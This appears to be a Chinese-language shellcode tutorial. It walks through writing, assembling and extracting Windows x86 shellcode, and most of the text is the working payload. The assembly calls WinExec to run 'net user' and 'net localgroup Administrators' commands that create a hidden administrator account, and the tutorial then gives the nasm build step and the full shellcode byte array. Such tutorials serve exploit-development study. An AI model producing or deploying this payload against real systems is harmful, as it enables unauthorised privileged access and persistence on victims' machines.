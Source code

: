 ## 汇编代码  ##

下面是adduser.asm的代码，原始出处是[http://www.vividmachines.com/shellcode/shellcode.html](http://www.vividmachines.com/shellcode/shellcode.html)，有细微的修改和注释。 

把下面的代码写到你的Cygwin“shellcode directory”中创建的adduser.asm中。一定要阅读代码的注释，他们解释了每行代码的作用，为后面shellcode的开发提供了有用的技巧。记得用上面arwin得到的地址替换掉WinExec和ExitProcess的地址。 

    +----------------- Start adduser.asm -----------------+   
    ;adduser.asm
    [Section .text]
    
    BITS 32
    
    global _start
    
    _start:
    
    jmp short GetCommand ;jump to the location of the command string
    CommandReturn: ;Define a label to call so that string address is pushed onto stack
    pop ebx ;ebx now points to the string
    
    xor eax,eax ;empties out eax
    push eax ;push null onto stack as empty parameter value
    push ebx ;push the command string onto the stack
    mov ebx,0x7c8615b5 ;place address of WinExec into ebx
    call ebx ;call WinExec(path,showcode)
    
    xor eax,eax ;zero the register again to clear WinExec return value (return values are often returned into eax)
    push eax ;push null onto stack as empty parameter value
    mov ebx, 0x7c81ca82 ;place address of ExitProcess into ebx
    call ebx ;call ExitProcess(0);
    
    GetCommand: ;Define label for location of command string
    call CommandReturn ;call the return label so the return address (location of string) is pushed onto stack
    db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser" ;Write the raw bytes into the shellcode that represent our string.
    db 0x00 ;Terminate our string with a null character.
    
    +----------------- End adduser.asm -----------------+

## 编译汇编代码 ##
现在我们用汇编代码写好了shellcode，我们需要编译它。可以使用nasm汇编编译器，用下面的命令，adduser.asm是要编译的汇编代码，adduser.bin是编译生成的二进制文件。 

    # nasm -f bin -o adduser.bin adduser.asm

## 得到shellcode  ##

编译得到二进制文件后，我们可以使用xxd工具生成shellcode。用下面的xxd命令，将生成下面的内容： 

    # xxd -i adduser.bin
     unsigned char adduser_bin[] = {
      0xeb, 0x16, 0x5b, 0x31, 0xc0, 0x50, 0x53, 0xbb, 0xb5, 0x15, 0x86, 0x7c,
      0xff, 0xd3, 0x31, 0xc0, 0x50, 0xbb, 0x82, 0xca, 0x81, 0x7c, 0xff, 0xd3,
      0xe8, 0xe5, 0xff, 0xff, 0xff, 0x63, 0x6d, 0x64, 0x2e, 0x65, 0x78, 0x65,
      0x20, 0x2f, 0x63, 0x20, 0x6e, 0x65, 0x74, 0x20, 0x75, 0x73, 0x65, 0x72,
      0x20, 0x50, 0x53, 0x55, 0x73, 0x65, 0x72, 0x20, 0x50, 0x53, 0x50, 0x61,
      0x73, 0x73, 0x77, 0x64, 0x20, 0x2f, 0x41, 0x44, 0x44, 0x20, 0x26, 0x26,
      0x20, 0x6e, 0x65, 0x74, 0x20, 0x6c, 0x6f, 0x63, 0x61, 0x6c, 0x67, 0x72,
      0x6f, 0x75, 0x70, 0x20, 0x41, 0x64, 0x6d, 0x69, 0x6e, 0x69, 0x73, 0x74,
      0x72, 0x61, 0x74, 0x6f, 0x72, 0x73, 0x20, 0x2f, 0x41, 0x44, 0x44, 0x20,
      0x50, 0x53, 0x55, 0x73, 0x65, 0x72, 0x00